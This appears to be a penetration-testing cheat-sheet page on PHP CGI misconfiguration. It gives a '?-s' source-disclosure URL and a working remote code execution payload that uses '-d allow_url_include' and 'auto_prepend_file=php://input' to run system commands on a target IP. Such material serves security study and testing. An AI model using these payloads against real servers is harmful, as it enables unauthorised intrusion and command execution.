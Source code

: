# PHP CGI Exploitation

## PHP CGI Source Disclosure

Passing '?-s' to any PHP file in a misconfiguration reveals the PHP source code of that file:

```text
http://10.10.10.10/?-s
```

## PHP CGI Remote Code Execution

The `-d` argument of php-cgi is another interesting parameter that we can use. This argument allows us to specify the configuration file's INI entries. When attempting to establish remote code execution, keep in mind that you should try to transmit PHP code to the server and have it interpret it. To accomplish this, we employ the wrapper php://input in order to parse the input.

For this, we'll need two things. On one hand, we'll need our request's PHP code to be read. We're seeking a PHP option that instructs PHP to read from a file and send it to `php://input`. Since PHP 4.2.3, the option auto prepend file has been available. The advantage of this option is that the contents of the file are included before any other file, in other words, it is the first option.

If we wish to use `php://input`, we must enable the URL to contain it, but this isn't a problem because the INI entries can be redefined. This is readily enabled with the `-d allow url include=1` option.

Assuming that we wanted to run the **id** command remotely, what we do is assemble a simple PHP script in advance which we send later via POST to the web with everything we have mentioned. 

The decoded URL looks like this:

```text
"http://10.10.10.10/?-d allow_url_include=1 -d auto_prepend_file=php://input"
```

The encoded URL looks like this:

```text
echo "<?php system('id');die(); ?>" | POST "http://10.10.10.10/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input"
```

References:

[https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/php-cgi-exploitation-by-example/](https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/php-cgi-exploitation-by-example/)

